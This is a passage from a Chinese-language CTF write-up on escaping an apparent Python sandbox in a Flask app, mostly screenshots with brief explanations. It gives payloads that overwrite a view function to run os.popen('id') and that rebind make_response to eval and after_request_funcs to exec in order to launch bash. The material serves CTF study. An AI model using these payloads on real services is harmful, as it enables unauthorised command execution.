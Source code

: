 ![UmvS0S.png](https://s1.ax1x.com/2020/07/09/UmvS0S.png)

![Umjzm8.png](https://s1.ax1x.com/2020/07/09/Umjzm8.png)


亦或者不弹shell

用同样的方法直接重写路由
![Umxtvq.png](https://s1.ax1x.com/2020/07/09/Umxtvq.png)

![UmxJ8s.png](https://s1.ax1x.com/2020/07/09/UmxJ8s.png)

```python
app.view_functions['security'] = lambda: __import__('os').popen('id').read()
```

[![UmxTGd.png](https://s1.ax1x.com/2020/07/09/UmxTGd.png)](https://imgchr.com/i/UmxTGd)


### ②方法二

参考自 [https://www.gem-love.com](https://www.gem-love.com/ctf/2429.html#pysandbox_pysandbox_v2)
payload
```
app.make_response=eval
app.after_request_funcs[None]=[exec]
__builtins__.xXXxXXx='__import__("os").system("bash")'
```

分析

![UnpPbV.png](https://s1.ax1x.com/2020/07/09/UnpPbV.png)

![Unp9uq.png](https://s1.ax1x.com/2020/07/09/Unp9uq.png)

看一下`make_response`的作用
默认值
![UnpCD0.png](https://s1.ax1x.com/2020/07/09/UnpCD0.png)

修改为`print`
![UnpSvn.png](https://s1.ax1x.com/2020/07/09/UnpSvn.png)

发现`make_response` 就是用如何来处理`return`值，这里想要利用 就必须`return`值可控，但`return`值固定为xXXxXXx，因此通过`eval` 把xXXxXXx当作变量来处理就可控`return`

同时`eval`并不会直接解析变量并执行，只会解析变量

![UniImR.png](https://s1.ax1x.com/2020/07/09/UniImR.png)


而`after_request_funcs`的作用是处理`make_response`的返回值，看一下小例子
[![UnikLR.png](https://s1.ax1x.com/2020/07/09/UnikLR.png)](https://imgchr.com/i/UnikLR)

`len` 处理了 变量`xXXxXXx`,返回值为7，然后`print` 又处理了`len`的返回值

